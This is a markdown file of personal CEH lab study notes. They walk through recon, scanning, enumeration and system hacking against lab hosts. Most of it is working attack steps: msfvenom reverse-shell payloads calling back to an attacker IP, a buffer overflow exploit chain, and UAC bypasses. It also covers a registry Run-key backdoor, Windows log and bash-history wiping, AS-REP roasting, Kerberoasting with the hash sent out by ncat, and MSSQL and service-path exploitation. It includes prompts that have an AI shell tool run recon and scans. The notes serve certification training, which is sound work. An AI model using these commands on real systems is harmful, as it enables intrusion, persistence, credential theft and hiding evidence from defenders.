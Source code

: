 # CEH-practice-notes
# Reconnasiance/Footprinting
<details>
  <summary>To find the subdomain</summary>

* nmap to find subdomain
```console
:~$ nmap -p 53 --script dns-brute <domain>
``` 
* google
```console
  :~$ site:example.com -inurl:www
```
* sublist3r
```console
  :~$ sublist3r -d example.com -o sublist3r_subs.txt
```
* some research websites
```console
  :~$ netcraft
      DNS dumpster
      pentest-tools.com
      SHODAN
```
* Collects open-source intelligence (OSINT) about domains, IPs, hosts, and people
```console
  :~$ recon-ng
  ```  
</details>

<details>

  <summary>social media recon by using sherlock</summary>

* sherlock
```console
:~$ sherlock "user name"
```
</details>

<details>

 <summary>Whois lookup</summary>

 * domaintools 
 (gives info regard a owner ph no and email)
 ```console
:~$ https://whois.domaintools.com
```

* nslookup(DNS lookup) <#windows>
```console
:~$nslookup
set type = a
( a >> configures nslookup to query for the IP address of a given domain.)
(shows non authorative result but we need authorative name so)

set type=cname
cnmae >>  lookup is done directly against the domain's authoritative name server 

set type=a
and get the name server ip

```
* nslookup website
```console
:~$ http://www.kloth.net/services/nslookup.php
```
</details>

<details>

 <summary>to trace a email</summary>

* Email tracker pro
```console
:~$ Install email tracker pro from the directory of a lab 
    and copy down the email header you want to track
```

</details>


<details>

 <summary>network footprinting</summary>

* tracert<#windows> traceroute<#linux>(helps in mapping the nw hosts)
```console
:~$ tracert www.target.com
tracert /? (help)
tracert -h 5 www.target.com
(-h > number of hopes)
```
* traceroute(linux)
```console
:~$ traceroute www.targetdomain.com
(to check ip)whois [ip]
```
</details>

<details>
<summary>recon-ng</summary>

* recon-ng 
```console
:~$recon-ng
   help
   marketplace install all

  (then to create workspace)
  workspace create CEH
  wrokspace list
  ```
  * To add the domain to workspaces
  ```console
  :~$ (help  for options)
  db insert domains(take you to the workspace interface)
  1.certifiedhacker.com
  2.hit enter
  show domains
  ```
* To search and load modules
```console
:~$ modules load brute (to get host related to target domain)
  modules load (desired modules for brute)
  run
  back

  modules load reverse_resolve
  modules load(desired module)
  show hosts(shows all hosts which is harvested)
```
* then to reporting
```console
:~$ modules load reporting
  modules load reporting/html
  options list(list options)
  options set FILENAME
              CUSTOMERNAME
              CREATOR
```
* then to get the contact of the domain
```console
:~$ modules load whois_pocs
  command info(to see a module interface,to set data)
  options set SOURCE facebook.com
  run

```
* to extract subdomains and IP
```console
:~$ module load recon/domains-hosts/hackertarget
options list
options set SOURCE certifiedhacker.com
run
```
</details>

<details>
<summary>recon by AI</summary>

* reconniassance with AI
```console
:~$sgpt --chat recon --shell "t organization. To do so, run sgpt --chat footprint --shell "Use theHarvester to gather email accounts associated with 'microsoft.com', limiting results to 200, and leveraging 'baidu' as a data source"
```
</details>

<details>
<summary>BillCipher</summary>

* Use this tool to get passive info of many details of org
```console
:~$sudo apt update && sudo apt install ruby python python-pip python3 python3-pip
sudo apt install httrack whatweb
git clone https://github.com/GitHackTools/BillCipher
cd BillCipher
pip install -r requirements.txt
pip3 install -r requirements.txt
python3 billcipher.py
```
</details>







# Scanning Networks
<details>
<summary>Host discovery</summary>

* Host discovery by
ARP ping scan
UDP ping scan
ICMP ping scan (ICMP ECHO ping, ICMP timestamp, ping ICMP, and address mask ping)
TCP ping scan (TCP SYN ping and TCP ACK ping)
IP protocol ping scan

```console
:~$ nmap -sn -PR [target ip]

-sn>>no port scan
-PR>>arp ping scan
```
* UDP ping scan
```console
:~$ nmap -sn -PU [target IP]
-PU>>UDP scan
```
* ICMP echo ping scan
```console
:~$ nmap -sn -PE [IP address]
PE>>ICMP echo ping scan
```
* ICMP ping sweep 
``` console
:~$ nmap -sn -PE [Range of IP address]
```
* ICMP timestamp ping scan
```console
:~$ nmap -sn -PP [IP address]
-PP>>timestamp ping scan
```
* Other scanning technique
```console
:~$nmap -sn -PM [ip address]
PM>>ICMP address mask ping scan

#########################################
nmap -sn -PS [target ip]
PS>>TCP SYN Ping Scan
#########################################
nmap -sn -PA [target ip]
-PA>>TCP ACK Ping Scan
########################################
nmap -sn -PO [ip address]
-PO>>IP Protocol Ping Scan(sends every protocols and send back the response)
```
</details>
<details>

<summary>Port and service discovery</summary>

* here using zenmap
```console
:~$ nmap -sT -v [target ip]
-sT>>TCP connect/full open scan
-v>>verbose
```
* To scan firewall enabled machine(bypass firewall)
```console
:~$nmap -sS -v [ip address]
-sS>>stealth scan
```
* xmass scan (sends urg psh fin)
```console
:~$nmap -sX -v [ip address]
-sX>>xmas scan
```
* maimon scan (ack+fin)
```console
:~$ nmap -sM -v [ip address]
-sM>>maimon scan
```
* by ACk flag
```console
:~$ nmap -sA -v [ip address]
-sA>>ack probe scan
```
* UDP scan (firewall is off)
```console
:~$nmap -sU -v [ip address]
-sU>>UDP scan
```
* other port and application scanning meathods
```console
:~$nmap -sI -v [target IP address]
-sI>>IDLE/IPID Header Scan
#############################
nmap -sY -v [target IP address]
-sY>>SCTP init scan
#############################
nmap -sZ -v [target IP address]
-sZ>>SCTP COOKIE ECHO Scan
```
</details>
<details>
<summary>Version scan/agressive scan</summary>

* version
```console
:~$nmap -sV [ip address]
-sV>>version scan
##############################
nmap -A 10.10.1.* (* do all subnet scan)
-A>>agressive scan
(performs -sV -O -sC(script scanning) --traceroute)
```
</details>
<details>
<summary>OS discovery</summary>

* os discovery using nmap script engine(NSE)>>using -O -A NSE
```console
:~$nmap --script smb-os-discovery.nse [ip address]
```
</details>

<details>
<summary>Scan beyond the IDS & firewll</summary>

* By fragmenting the packet

```console
:~$ nmap -f [ip address]
-f>>fragment

```
* Source port manipulation
```console
:~$ nmap -g 80 [ip address]
-g ,--source-port >> source port manipulation
```
* MTU(maximum transmission unit)
```console
:~$ nmap -mtu 8 [ip adress]
-mtu>>maximum transmision unit(which is send smaller data packets 8 bytes)
```
* Decoy(random ip adress)
```console
:~$ nmap -D RND:10 [ip address]
-D>>decoy
RND>>random ip count
```
* MAC spoofing
```console
:~$ nmap -sT -Pn --spoof-mac 0 [ip address]
-sT>>TCP full scan
-Pn>>no host discovery
--spoof-mac 0>>gives legitimate mac address in the network
```
</details>
<details>
<summary>Scan a target network using metasploit</summary>
```console
:~$ open the msfconsole
nmap -sP -sS -A -oX test [ip/24](subnetmask)
-oX>>output to xmp file names test
```

* by metasploit madules
```console
:~$ search port scan (shows all module related to port scan)
use auxilary/scanner/portscan/syn
show options and set values
run
###############################
same scanned for TCP (same module with tcp at last)
set target ip(RHOSTS)

#found 445 open port so scanning smb version
use auxilary/scanner/smb/smb_version 
set RHOSTS [ip range]
threads 11

```
</details>
<details>
<summary>Scanning network using sgpt</summary>

```console
:~$ sgpt --chat scan --shell "prompt (by using HPING3")
```

</details>





# Enumeration
<details>
<summary>Netbios enumeration</summary>

* nbtstat

```console
:~$ nbtstat -a [ip address]
-a>>displays the NetBIOS name table of a remote computer.



nbtstat -c 
-c>> displays the cashe of netbios



net use
>>shows active connection
```

</details>

<details>

<summary>SNMP enumeration using tools</summary>

* SnmpWalk]
```console
:~$ snmpwalk -v1 -c public <Ip address>
-v1>>version of snmp
-c>>community string(public/private)

#for v2 snmp

snmpwalk -v2c -c public <ipaddress>
-v2c>>version
```
</details>

<details>
<summary>LDAP enumaration</summary>

* By using AD explorer
```console
:~$open exe file in explorer
```
</details>
<details>
<summary>NFS enumeration</summary>

* by using nmap
```console
:~$ nmap -p 2049 [ip addr] 
-p>> to specify port

to check target is NFS is enabled or not
(to enable it in target device use server manager)


than open super enum tool 
create a file included target ip as Target.txt
#echo "target ip" >> target.txt
 next

./superenum

(If you get an error running the ./superenum script, execute chmod +x superenum command, then repeat Step#13.)
```

* by RPCScan
```console
:~$ cd RPCScan
python3 rpc-scan.py [Target IP address] --rpc
--rpc>> lists the RPC (portmapper)
```
</details>
<details>
<summary>DNS enumeration using zone transfer</summary>

* By using dig command
```console
:~$ dig ns [target domain]
ns>>shows the name server
```
* To check it has zone transfer or not
```console
:~$ dig @ [name server] [target domain] axfr
axfr >> retrives zone transfer info
```
* By using nslookup
```console
:~$ nslookup
set querytype=soa

soa>>sets the query type to SOA (Start of Authority) record to retrieve administrative information about the DNS zone of the target domain certifiedhacker.com.

then in interactive mode

ls -d [name server]
## this command checks is domain supoort zone tarnsfer or not
```
</details>

<details>
<summary>SMTP enumeration</summary>

* Usimg nmap
```console
:~$ nmap -p 25 --script=smtp-enum-users [ip]
##shows all the mail users
## to check the script >> nmap --script-help 'http-*' | less


nmap -p 25 --script=smtp-open-relay [target IP]    

```
</details>

# Vulnerability Analysis
<details>

<summary>Research on CWE (common weakness enumeration)</summary>

* Research CWE website
```console
:~$ cwe.mitre.org
aslo can check access content >> cwe list
```
</details>
<details>
<summary>OpenVAS</summary>

* Vulnerability analysis using OpenVAS
```console
:~$ to open OPENVAS 
parrot cmd >> 
docker run -d -p 443:443 --name openvas mikesplain/openvas
then http://127.0.0.1
passward:admin admin
```
</details>
<details>
<summary>Using AI </summary>

* Perform Vulnerability Analysis using AI
```console
:~$ sgpt --chat nikto --shell "Scan the URL https://www.certifiedhacker.com to identify potential vulnerabilities with nikto"


 sgpt --chat vuln --shell "Perform vulnerability scan on target url http://www.moviescope.com with Nmap with port 80"

 ```

 ## by using skipfish (website)
 ```console
 :~$ sgpt --chat vuln --shell "Perform a vulnerability scan on target url http://testphp.vulnweb.com with skipfish" 
 open the saved html file with browser
 ```

</details>

# System Hacking
<details>

<summary>Crack the password using responder</summary>

* cmd to run responder
```console
~$:sudo responder -I eth0
-I>>interface

in target system run bar \\CEH-Tools
and in parrot copy the capture hash availed in responder
and in another sudo terminal
pluma hash.txt n copy it here
```
//then decript using john
```console
~$:john hash.txt
```
</details>
<details>
<summary>Access remote system using Reverse shell generator</summary>

* Enable reverse shell
```console
~$:docker run -d -p 80:80 reverse_shell_generator
```
* firefox >> http://localhost
```console
~$:In the IP field, type [attacker sys ip] as listener IP and in the Port field, type 4444 as listener port.

and copy the msfvenom cmd in the same window and paste it in cmd (windows meterpreter reverse TCP)

We will start a listener using Reverse Shell Generator, to do so, switch to the browser window and select msfconsole as Type from the drop-down under Listener.
and copy the code >> paste it in cmd >> listner will start

In attacker system go to file (ctrl L) and type smb://10.10.1.11 to get win 11 files 
Navigate to CEHv13 Module 06 System Hacking and paste the copied reverse.exe file.

in victm machine navigate to CEH tool and copy the reverse.exe and copy it to desktop
double click it (exe)

```

* After session created
```console
~$: getuid (to get the user details)
```

* Now by powershell script
```console
~$: in firefox reverse shell page select PowerShell IEX and change port to 444 and copy the code

and in new su cmd 
pluma shell.ps1 and copy the code and save

and now we have to create a hoaxshell listner for that
back to reverseshell browser window and input 444 as port and select hoaxshell
copy paste it in cmd and enter


now copy the shell file wee created and paste it in wind 11 cehtool folder by smb://10.10.1.11
in winn 11 navigate to this file and paste it in win 11 desktop
```

* open powershell as a admin
then type
```console
~$: cd C:\Users\Admin\Desktop
and run .\"filename"
>>to run a file in victim machine
```
</details>
<details>
<summary>Perform Buffer Overflow Attack to Gain Access to a Remote System</summary>

* download vulnserver from module6 file and run
* and also install immunity debugger and run it as admin
```console
~$:click file in the menu bar
and click attach n attach the vulnserver
then run it (play button at top)
```
* shift to parrot
```console
~$:nc -nv 10.10.1.11 9999
-n >> dont try to resolve hostname with dns, use the ip exactly as given

type HELP
```
* Generate spike template and performing spiking
//to create a spike template on STATS function
```console

~$: pluma stats.spk and type the following cmd

s_readline();

s_string("STATS ");

s_string_variable("0");
```
* to send the package to vulberable server
```console
~$: generic_send_tcp 10.10.1.11 9999 stats.spk 0 0
here STATS fn is not vulnerable to bufferoverflow
```
* so we will perform TRUN function
```console
~$:pluma trun.spk
and type
s_readline();

s_string("TRUN ");

s_string_variable("0");
```
* run
```console
~$: generic_send_tcp 10.10.1.11 9999 trun.spk 0 0
```
* Now performing FUZZING
```console
~$:navigate to ceh tools and buffer over flow file copy script file and paste it in desktop
now perform python script to perform fuzzing

navigate to cd /home/attacker/Desktop/Scripts/
```
execute
```console
~$:chmod +x fuzz.py
./fuzz.py
```
* pattern create by ruby tool (in a same script file)
```console
~$:in linux cmd >> /usr/share/metasploit-framework/tools/exploit/pattern_crteate.rb -l 1040
-l>>leangth of a byte size

>>it creates some random piece of bytes
copy the characters
>>
paste it in
 pluma findoff.py (script file)
>>in bw offset ""

chmod +x findoff.py
./findoff.py
and open immunity debugger and notedown the EIP (offset value)
```
then
```console
~$: /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 10400 -q (offset value)
-q>>offset value
then close the cmd window
resrart the immunity devbugger and vuln server
```
then (in script file)
```console
~$: chmod +x overwrite.py
./overwrite.py
>> to overwrite EIP
```
* by bad chars
```console
~$: chmod +x badchars.py (in script folder)
./badchars.py

>> in immunity debugger click on ESP and follow in dump option
```
* Now we have to identify the right module of the vulnerable server (mona.py)
```console
~$: navigate to E:\CEH-Tools\CEHv13 Module 06 System Hacking\Buffer Overflow Tools\Scripts, copy the mona.py script, and paste it in the location in windows 11 C:\Program Files (x86)\Immunity Inc\Immunity Debugger\PyCommands
```
nxt open immunity debugger
and type !mona modules in txt field of immunity debugger
observe that essfunc.dll have no memory protection

```console
~$: in unix cmd 
python3 /home/attacker/converter.py
Enter the assembly code here : prompt appears; type JMP ESP and press Enter.

here ffe4

In the Immunity Debugger window, type !mona find -s "\xff\xe4" -m essfunc.dll and press Enter in the text field present at the bottom of the window.

the address of vulnerable module you will found in first result


 Immunity Debugger window, click the Go to address in Disassembler icon (the arrow towards right)
in pop enter the address of vulnerable module (625011af)
run debugger

and in script file
chmod +x jump.py
./jump.py
>> which over right the EIP
```
* then to generate a shell code
```console
~$: msfvenom -p windows/shell_reverse_tcp LHOST=[Local IP Address] LPORT=[Listening Port] EXITFUNC=thread -f c -a x86 -b "\x00"

>>Here, -p: payload, local IP address: 10.10.1.13, listening port: 4444, -f: filetype, -a: architecture, -b: bad character.

copy the granted shellcode
and paste it in
pluma shellcode.py
add b in every line to convert string to bytes
```
then before running the command we have to create a listner by netcat
```console
~$: nc -nvlp 4444
and in script folder path
chmod +x shellcode.py
./shellcode.py
```
</details>
<details>

## Perform Privilege Escalation to Gain Higher Privileges 
<summary>Escalate privileges by bypassing UAC and exploiting Sticky Keys</summary>

* create a payload
```console
~$: msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.1.13 lport=444 -f exe > /home/attacker/Desktop/Windows.exe.

```
* create a folder in localhost in var directory
```console
~$: var >> mkdir share
Run chmod -R 755 /var/www/html/share command
Run chown -R www-data:www-data /var/www/html/share command
```
* Copy the payload into the shared folder by executing
```console
~$:cp /home/attacker/Desktop/Windows.exe /var/www/html/share/


Start the Apache server by executing service apache2 start command.
```
* Run metasploit
```console
~$: msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST<>
set LPORT <>


run the payload in victim machine
```
* now we will bypass the UAC by "FodHelper"
```console
~$:use exploit/windows/local/bypassuac_fodhelper
set session 1
set TARGET = 0
exploit
```

```console
~$: getsystem -t 1 and press Enter to elevate privileges.
```
* now using sticky keys module
```console
~$: post/windows/manage/sticky_keys
set session 2
exploit
proceed to mark user account and in lock screen hit sticky key 5 times 
whoami
```
</details>
<details>
<summary>Maintain Remote Access and Hide Malicious Activities</summary>

* User System Monitoring and Surveillance using Spyrix
```console
~$:Spyrix (GUI)
```
<summary> Maintain Persistence by Modifying Registry Run Keys</summary>

* create a payload
```console
~$: msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.1.13 lport=444 -f exe > /home/attacker/Desktop/Test.exe
```
>payload that needs to be uploaded into the Run Registry of Windows 11
```console
~$:msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.1.13 lport=4444 -f exe > /home/attacker/Desktop/registry.exe

cp /home/attacker/Desktop/Test.exe /var/www/html/share/ and cp /home/attacker/Desktop/registry.exe /var/www/html/share/

start the apache2
```
>run metasploit
```console
~$: msfconsole
set payload windows/meterpreter/reverse_tcp
set lhost and lport
```
* Windows UAC protection evading
```console
~$: Windows UAC protection via SilentCleanup task present in Windows Task Scheduler. It is present in Metasploit as a bypassuac_silentcleanup exploit.

use exploit/windows/local/bypassuac_silentcleanup
set session 1
set TARGET 0
exploit
getsystem -t 1 (escalate previlage)
```
>to ingect malicious file
```console
~$:reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v backdoor /t REG_EXPAND_SZ /d "C:\Users\Admin\Downloads\registry.exe"

msfconsole in another cmd
 use exploit/multi/handler
 set payload windows/meterpreter/reverse_tcp
 set lport and lhost the same which is given to registry payload
 restart the victim machine
 ```
 </details>
 <details>
 <summary>Clear Logs to Hide the Evidence</summary>
 
 * Clear Windows Machine Logs using Various Utilities
 ```console
~$:download from file >> Clear_Event_Viewer_Logs.bat.
runs automatically and closes it cleares all trackes
```
> manually clearing logs through cmd
```console
~$:run cmd with administrater privilage and run
wevtutil el (shows all logs)
to clear system logs
wevtutil cl system (cl >> clear log)
```
> To hide the deleted file that auditor not to recover
```console
~$ cipher /w:[Drive or Folder or File Location]
cipher /w:c
>>it over writes the deleted file
```
* Clear Linux Machine Logs using the BASH Shell
```console
~$:export HISTSIZE=0 
>>command to disable the BASH shell from saving the history.
>>HISTSIZE: determines the number of commands to be saved, which will be set to 0.

```
```console
~$: history -c
clears the earlier used commands

history -w 
>> to delete the stored bash cmd 

shred ~/.bash_history
>>it will destroy the history

more ~/.bash_history
>> to view the shredded history
```
>we can perform all this bash clear in one single code
```console
~$shred ~/.bash_history && cat /dev/null > .bash_history && history -c && exit.
```
</details>
<details>
<summary>Perform Active Directory (AD) Attacks</summary>

* Perform Initial Scans to Obtain Domain Controller IP and Domain Name
```console
~$ nmap 10.10.1.0/24
>>to scan entire subnet and to find domain controller ip 
>>analyse the result that which ip having the LDAP 389/TCP and Kerberos 88/TCP port open that is over DC
```
```console
~$: Now scanning 10.10.1.22 / DC machine in more depth
nmap -A -sC -sV 10.10.1.22
-A >> Agressisve
_sC >> script (nmap script engine)
-sV >> Version/service detection
after this scan we can see domain name here its CEH.com
```
* Perform AS-REP Roasting Attack (to check which user dont enable DONT_REQUIRE_PREAUTH in DC)
```console
~$:cd to move into root
cd impacket/examples/ 
>> to get inside the directory
python3 GetNPUsers.py CEH.com/ -no-pass -usersfile /root/ADtools/users.txt -dc-ip 10.10.1.22.

>>GetNPUsers.py: Python script to retrieve AD user information.

>>CEH.com/: Target AD domain.

>>-no-pass: Flag to find user accounts not requiring pre-authentication.

>>-usersfile ~/ADtools/users.txt: Path to the file with the user account list.

>>-dc-ip 10.10.1.22: IP address of the DC to query.

here we found user johua have this "DONT_REQUIRE_PREAUTH"
```
```console
~$: copy the [hash]
and
echo '[HASH]' > joshuahash.txt. 
to store hashes inside the text file
```
>then crack the password
```console
~$:  john --wordlist=/root/ADtools/rockyou.txt joshuahash.txt.
```
</details>
<details>
<summary>Spray Cracked Password into Network using CrackMapExec</summary>

* CrackMapExec (with nmap scanned services like ldap rdp ftp etc)
```console
~$:here we are taking rdp (remote desktop protocol)
 cme rdp 10.10.1.0/24 -u /root/ADtools/users.txt -p "cupcake"

>>rdp: Targets the Remote Desktop Protocol (RDP) service.

>>10.10.1.0/24: IP address range to target, encompassing all hosts within the subnet 10.10.1.0 with a subnet mask of 255.255.255.0.

>>-u /root/ADtools/users.txt: Specifies the path to the file containing user accounts for authentication.

>>-p "cupcake": Password which we cracked using AS-REP Roasting to test against the RDP service on the specified hosts. 
found here mark is pewned
```
```console
~$: Remmina 
>>after the above step of CME (getting of user and password)
>>open Remmina in search bar in parrot os
```
</details>
<details>
<summary>Perform Post-Enumeration using PowerView</summary>

* Powerview
```console
~$:open Remmina with credential opt from password spray technique 
open powershell
cd Downloads 
Powershell -EP Bypass
. .\PowerView.ps1
Get-NetComputer (shows computer object)
Get-NetGroup (list all the grooup)
Get-NetUser (details of user account)
during this enumeration
we found new user >> SQL_srv
```
```console
~$: listed commands that you can use with PowerView.ps1 for enumeration:

Get-NetOU - Lists all organizational units (OUs) in the domain.
Get-NetSession - Lists active sessions on the domain.
Get-NetLoggedon - Lists users currently logged on to machines.
Get-NetProcess - Lists processes running on domain machines.
Get-NetService - Lists services on domain machines.
Get-NetDomainTrust - Lists domain trust relationships.
Get-ObjectACL - Retrieves ACLs for a specified object.
Find-InterestingDomainAcl - Finds interesting ACLs in the domain.
Get-NetSPN - Lists service principal names (SPNs) in the domain.
Invoke-ShareFinder - Finds shared folders in the domain.
Invoke-UserHunter - Finds where domain admins are logged in.
Invoke-CheckLocalAdminAccess - Checks if the current user has local admin access on specified machines.
```
</details>
<details>
<summary>Perform Attack on MSSQL service</summary>

* xp_cmdshell is a SQL server stored procedure enabling command shell execution. (allows to interact with system which connected to the sql)
```console
~$: during nmap scan we observed that host 10.10.1.30 port 1433 is opened (sql port)
as we got the user name through powerview.ps1 enumeration now we have to find the password so we are using
```
>>Hydra
```console
~$: store SQL_srv in text file
pluma SQL_srv > user.txt
hydra -L user.txt -P /root/ADtools/rockyou.txt 10.10.1.30 mssql
>>
Next, we will attempt to log into the service using mssqlclient.py.
the data base name is master here
```
```console
~$: and execute
 SELECT name, CONVERT(INT, ISNULL(value, value_in_use)) AS IsConfigured FROM sys.configurations WHERE name='xp_cmdshell';,
it returns a value one so that we know xp_cmdshell is enables
```
>>next open msfconsole
```console
~$: use exploit/windows/mssql/mssql_payload
set RHOST 10.10.1.30
set USERNAME SQL_srv
set PASSWORD batman
set DATABASE master


>>next
type shell (to interact with shell cmd with system)
whoami (to confirm the username)
```
<summary>Perform Privilege Escalation</summary>

* WinPEASx64.exe (tool for privilage escalation)
```console
~$: to perform a higher attack we need a higher previlage so
we are going to run WinPEASx64.exe in victim machine
in meterpreter
Move to C:\ using the command cd C:\.cd \Users\Public\Downloads
type powershell

>> we need to host winPEASx64.exe 
open new cmd as root
and type
 cd /root/ADtools
 python3 -m http.server and press Enter to host the winPEASx64.exe file
 >> again open shell terminal (parrot)
 wget http://10.10.1.13:8000/winPEASx64.exe -o winpeas.exe.

 execute
  ./winpeas.exe.
  >> observe the output. Here, we have a file named file.exe in C:\Program Files\CEH Services that is unquoted and can be exploited for privilege escalation. (in autorun application section)
  ```
  ```console
  ~$: in new terminal (parrot)
  msfvenom -p windows/shell_reverse_tcp lhost=10.10.1.13 lport=8888 -f exe > /root/ADtools/file.exe
  get back to shell cmd
  cd ../../.. ; cd "Program Files/CEH Services".
  >>
  move file.exe file.bak ; wget http://10.10.1.13:8000/file.exe -o file.exe.
  ```
  >>netcat
  ```console
  ~$: nc -nvlp 8888 
  open victim machine win 2019 (ad)
  and login with user name SQL_srv n pass batman
  and back to nc cmd
  here it listend and 
  whoami
  ```
  </details>
  <details>
  <summary>Perform Kerberoasting Attack</summary>

  * Rubeus (tool)
  ```console
~$:powershell 
 >>in netcat cmd to get into the powershell
 navigate to downloads
 >>
 Now, we will be downloading Rubeus and netcat. Execute the command wget http://10.10.1.13:8000/Rubeus.exe -o rubeus.exe ; wget http://10.10.1.13:8000/ncat.exe -o ncat.exe. Once the tools are downloaded type exit and press Enter.
 >>
 cd ../.. && cd Users\Public\Downloads and press Enter to move into the Downloads folder.
 ```
 ```console
 ~$: execute the command
 rubeus.exe kerberoast /outfile:hash.txt.

 >> to send this hash file to attacker system we using netcat
 open new terminal
 nc -lvp 9999 > hash.txt 

 In the shell terminal, execute the command
  ncat.exe -w 3 10.10.1.13 9999 < hash.txt.
  get back to netcat cmd and press enter to save the file
  ```
  >>offline crack of hach by using Hashcat
  ```console
  ~$:  hashcat -m 13100 --force -a 0 hash.txt /root/ADtools/rockyou.txt
  advances! is a got password
  

